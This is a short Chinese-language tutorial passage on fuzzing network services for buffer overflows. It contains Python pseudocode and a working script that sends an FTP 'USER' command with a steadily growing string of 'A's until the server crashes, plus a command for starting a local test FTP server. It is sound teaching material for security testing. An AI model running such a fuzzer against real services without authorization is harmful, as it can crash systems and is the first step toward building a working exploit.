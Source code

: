 漏洞检查的基本过程可以这样描述：连接服务器，发送数据，增加数据内容，再次发送，如此循环一直到程序奔溃.

用伪码表示:

```python
<import modules> # most likely will be socket, sys, but if its a web service you might import httplib, urllib, etc.

# Set up remote IP/Port variables
# Invoke the script: ./script.py <RHOST> <RPORT>
RHOST = sys.argv[1]
RPORT = sys.argv[2]

# Define your buffer string that will be incremented until a potential crash
buffer = '\x41'*50

# Create a loop that will connect to the service and send the buffer:
while True:
  try:
    # send buffer
    # increment buffer by 50
    buffer = buffer + '\x41'*50
  except:
    print "Buffer Length: "+len(buffer)
    print "Can't connect to service...check debugger for potential crash"
```

快速启动一个FTP站点用于测试:

```
$ sudo python -m pyftpdlib -p 21
```

专门针对FTP的程序:

```python
# Import the required modulees the script will leverage
# This lets us use the functions in the modules instead of writing the code from scratch
import sys, socket
from time import sleep

# set first argument given at CLI to 'target' variable
target = sys.argv[1]
# create string of 50 A's '\x41'
buff = '\x41'*50

# loop through sending in a buffer with an increasing length by 50 A's
while True:
      # The "try - except" catches the programs error and takes our defined action
      try:
            # Make a connection to target system on TCP/21
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.settimeout(2)
            s.connect((target,21))
            s.recv(1024)

            print "Sending buffer with length: "+str(len(buff))
            # Send in string 'USER' + the string 'buff'
            s.send("USER "+buff+"\r\n")
            s.close()
            sleep(1)
            # Increase the buff string by 50 A's and then the loop continues
            buff = buff + '\x41'*50

      except: # If we fail to connect to the server, we assume its crashed and print the statement below
            print "[+] Crash occured with buffer length: "+str(len(buff)-50)
```